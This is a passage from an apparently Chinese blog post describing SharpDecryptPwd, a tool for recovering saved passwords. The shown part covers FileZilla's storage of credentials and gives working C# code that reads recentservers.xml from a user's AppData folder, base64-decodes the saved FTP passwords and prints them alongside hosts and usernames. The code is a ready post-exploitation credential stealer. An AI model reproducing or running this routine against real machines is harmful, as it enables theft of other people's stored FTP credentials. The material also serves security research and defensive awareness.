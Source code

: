```
}
```

为了其兼容性，不对结果进行筛选，输出全部窗体内容信息

[![](https://rcoil.me/image/%E3%80%90%E7%BC%96%E7%A8%8B%E3%80%91SharpDecryptPwd/blog_2019-08-23_14-40-13.png)](https://rcoil.me/image/%E3%80%90%E7%BC%96%E7%A8%8B%E3%80%91SharpDecryptPwd/blog_2019-08-23_14-40-13.png)

[](#0x05-FileZilla "0x05 FileZilla")0x05 FileZilla
--------------------------------------------------

从网上收集的信息得到：

*   在 `Filezilla 2.X` 版本中，密码正在进行异或处理并存储在 Registry 中;
    
*   在 `Filezilla 3.x` 版本中，密码以明文形式存储在 `.xml文件`中。
    
    如今官方的最新版本为 `FileZilla_3.44.2_win64_sponsored-setup`，以此版本进行测试：
    
    [![](https://rcoil.me/image/%E3%80%90%E7%BC%96%E7%A8%8B%E3%80%91SharpDecryptPwd/blog_2019-08-26_09-47-20.png)](https://rcoil.me/image/%E3%80%90%E7%BC%96%E7%A8%8B%E3%80%91SharpDecryptPwd/blog_2019-08-26_09-47-20.png)
    

​ 直接读取 相关 xml 的内容即可（**_recentservers.xml_**）

```
public static void fileZilla()
        {
            string FzPath = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), @"FileZilla\recentservers.xml");
            try
            {
                if (File.Exists(FzPath))
                {
                    try
                    {
                        var objXmlDocument = new XmlDocument();
                        objXmlDocument.Load(FzPath);
                        Console.WriteLine("{0,-20}{1,-8}{2,-15}{3,-15}", "Host", "Port", "Username", "ratPass");
                        foreach (XmlElement XE in ((XmlElement)objXmlDocument.GetElementsByTagName("RecentServers")[0]).GetElementsByTagName("Server"))
                        {
                            var Host = XE.GetElementsByTagName("Host")[0].InnerText;
                            var Port = XE.GetElementsByTagName("Port")[0].InnerText;
                            var User = XE.GetElementsByTagName("User")[0].InnerText;
                            var Pass = (Encoding.UTF8.GetString(Convert.FromBase64String(XE.GetElementsByTagName("Pass")[0].InnerText)));
                            if (!string.IsNullOrEmpty(Host) && !string.IsNullOrEmpty(Port) && !string.IsNullOrEmpty(User) && !string.IsNullOrEmpty(Pass))
                            {
                                Console.WriteLine("{0,-20}{1,-8}{2,-15}{3,-15}", Host, Port, User, Pass);
                            }
                            else
                            {
                                break;
                            }
                        }
                    }
                    catch { }
                }
            }
            catch { }
        }
```
